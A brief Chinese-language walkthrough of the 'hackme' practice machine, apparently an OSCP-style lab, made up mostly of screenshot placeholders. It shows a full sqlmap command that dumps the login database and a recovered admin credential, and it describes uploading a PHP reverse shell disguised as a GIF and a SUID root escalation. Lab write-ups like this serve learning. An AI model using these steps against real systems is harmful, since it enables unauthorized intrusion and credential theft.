# hackme









打目录打了很多次都只打到了两个目录

/login和/uploads



简单测试但没发现任何线索之后，注册新帐号evil尝试登录



近乎完美的“来注入我”的提示。

burpsuite抓包注入

但是手注无反应sqlmap跑一下

--data 加上抓包成功的发送内容。--cookie带登录的cookie

```bash
sqlmap -u "http://192.168.43.36/welcome.php" --data "search=oscp" --cookie "PHPSESSID=j2fjanfrtb5pd2mdhemqcfqlal" -dump
```






```bash
superadmin：Uncrackable
```

使用这个凭证重新登录



制作一个gif phprshell上传










查看home



SUID

直接运行。root

